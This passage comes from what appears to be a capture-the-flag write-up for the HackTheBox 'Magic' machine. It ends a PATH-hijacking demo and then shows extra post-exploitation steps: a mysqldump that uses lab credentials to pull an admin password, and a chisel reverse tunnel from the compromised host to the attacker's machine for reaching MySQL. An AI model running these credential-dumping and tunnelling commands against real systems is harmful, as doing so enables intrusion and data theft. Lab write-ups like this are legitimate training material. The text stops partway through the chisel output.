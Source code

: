 	6. Revert PATH environment
		```
		theseus@ubuntu:/tmp$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
		```
6. Demo - `sysinfo` PATH Hijacking
	![](kSYETSr4DC.gif)

# Additional  

## Theseus - Obtain creds w/ SQLDump
1. Instead of writing a `PHP` file to query `mysql`, we use `mysqldump` to dump `mysql` databases.
	> The dump contains a set of SQL statements that can be executed to reproduce the original database object definitions and table data.
	{: .prompt-info}
2. On `www-data`, type `mysql` and hit `tab`
	```
	www-data@ubuntu:/tmp$ mysql
	mysql_config_editor        mysql_secure_installation  mysqladmin                 mysqld                     mysqldumpslow              mysqlrepair
	mysql_embedded             mysql_ssl_rsa_setup        mysqlanalyze               mysqld_multi               mysqlimport                mysqlreport
	mysql_install_db           mysql_tzinfo_to_sql        mysqlbinlog                mysqld_safe                mysqloptimize              mysqlshow
	mysql_plugin               mysql_upgrade              mysqlcheck                 mysqldump                  mysqlpump                  mysqlslap
	```
	>A list of `mysql` commands is displayed
	{: .prompt-info}
3. Dump `Magic` database w/ `mysqldump`
	```sql
	www-data@ubuntu:/tmp$ mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
	
	LOCK TABLES `login` WRITE;
	/*!40000 ALTER TABLE `login` DISABLE KEYS */;
	INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
	/*!40000 ALTER TABLE `login` ENABLE KEYS */;
	UNLOCK TABLES;
	/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
	```
	![]({{ page.img_path }}Pasted%20image%2020220927165334.png)
	- `admin:Th3s3usW4sK1ng`

## Theseus - Port Forward to access MySQL on Kali
1. Instead of writing a `PHP` file to query `mysql`, we use access `mysql` on `kali` w/ `chisel`
2. By using `chisel` to port forward, we are able to access `magic.htb` `mysql` server on `kali`
3. Portwarding w/ `chisel`
	- `kali`
		```
		┌──(root💀kali)-[~/htb/magic]
		└─# chisel server --reverse --port 1337
		2022/09/27 15:44:16 server: Reverse tunnelling enabled
		2022/09/27 15:44:16 server: Fingerprint vnLX3w8MGxUv331CjE1Hmujl+mZimvFGhTgxXm3YNmc=
		2022/09/27 15:44:16 server: Listening on http://0.0.0.0:1337
		```
	- `magic.htb`
		```
		www-data@ubuntu:/tmp$ ./chisel client 10.10.14.14:1337 R:3306:127.0.0.1:3306 &
		2022/09/27 00:44:39 client: Connecting to ws://10.10.14.14:1337
		2022/09/27 00:44:39 client: Connected (Latency 36.181644ms)